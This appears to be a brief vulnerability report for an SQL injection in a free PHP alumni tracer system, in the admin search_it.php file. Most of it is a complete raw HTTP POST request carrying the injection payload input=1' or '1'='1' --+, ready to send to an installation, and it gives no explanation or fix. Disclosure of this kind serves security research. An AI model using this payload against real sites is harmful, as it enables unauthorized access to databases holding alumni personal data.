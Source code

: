 # Online Graduate Tracer System for College of ICT Alumni in PHP Free Source Code
### vendors:https://www.sourcecodester.com/php/15904/online-graduate-tracer-system-college-ict-alumni.html
### The program is built using the phpstudy 8.1.1.3
Vulnerability File: tracking/admin/search_it.php
Vulnerability location: tracking/admin/search_it.php
####payload:post http://www.testcms.com/tracking/admin/search_it.php  data:input=*
```
POST /tracking/admin/search_it.php HTTP/1.1
Host: www.testcms.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://www.testcms.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.testcms.com/tracking/admin/adminlog.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: XDEBUG_SESSION=XDEBUG_ECLIPSE; 
x-forwarded-for: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

input=1' or '1'='1' --+
```
![image](https://user-images.githubusercontent.com/127461763/224210235-19b4c723-cfd5-4288-961d-9731a34c78f5.png)
